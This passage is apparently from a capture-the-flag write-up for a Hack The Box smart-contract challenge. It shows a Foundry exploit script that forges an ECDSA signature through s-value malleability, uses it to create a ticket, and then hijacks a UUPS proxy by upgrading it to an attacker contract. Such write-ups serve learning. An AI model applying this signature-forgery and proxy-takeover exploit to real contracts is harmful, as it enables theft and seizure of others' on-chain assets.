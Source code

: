 ~~~solidity
    function manipulateSignature(bytes memory signature) public pure returns(bytes memory) {
        (uint8 v, bytes32 r, bytes32 s) = splitSignature(signature);

        uint8 manipulatedV = v % 2 == 0 ? v - 1 : v + 1;
        uint256 manipulatedS = modNegS(uint256(s));
        bytes memory manipulatedSignature = abi.encodePacked(r, bytes32(manipulatedS), manipulatedV);

        return manipulatedSignature;
    }

    function splitSignature(bytes memory sig) public pure returns (uint8 v, bytes32 r, bytes32 s) {
        require(sig.length == 65, "Invalid signature length");
        assembly {
            r := mload(add(sig, 32))
            s := mload(add(sig, 64))
            v := byte(0, mload(add(sig, 96)))
        }
        if (v < 27) {
            v += 27;
        }
        require(v == 27 || v == 28, "Invalid signature v value");
    }

    function modNegS(uint256 s) public pure returns (uint256) {
  
        uint256 n = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141;        
        return n - s;
    }

    function run() external {
        uint256 deployerPrivateKey = 0x5a3b6f509474cfae2074093a5609cee7f37fa3613c3e952c601f44eee5bf1ee7;  //fill private key
        address setupAddr = 0x52fcC866a34f7bACe7d90198aaE5dCb35663eD66;     //fill setup address
        vm.startBroadcast(deployerPrivateKey);

        Setup sp = Setup(setupAddr);
        StargazerKernel proxy = StargazerKernel(0x50F37a51e5b0AA379e66651A82eC5e5c6dc552DC); //fill target address
        bytes memory a = hex"c5e4997efeca9f3f5b70f5f7fbbdea614b53055e9189cc7448ca397c2dfa15e71be89a1b91381c104a63d46b3594228a5ccf48548945aca704f667f08fb37c741c";
        proxy.createPASKATicket(manipulateSignature(a));
        OurStargazerKernel osk = new OurStargazerKernel();
        address(proxy).call(abi.encodeWithSignature("upgradeToAndCall(address,bytes)", address(osk), abi.encodeWithSignature("wahoo()")));
        osk = OurStargazerKernel(address(proxy));
        osk.commitStarSighting("Nova-GLIM_007");
        osk.commitStarSighting("Starry-SPURR_001");
        osk.commitStarSighting("Nova-GLIM_007");
        osk.commitStarSighting("Starry-SPURR_001");
        sp.isSolved();

        vm.stopBroadcast();
    }
}
~~~
{{% /tab %}}
{{% tab tabName="OurStargazerKernel.sol" %}}
~~~solidity
contract OurStargazerKernel is UUPSUpgradeable {
    // keccak256(abi.encode(uint256(keccak256("htb.storage.Stargazer")) - 1)) & ~bytes32(uint256(0xff));
~~~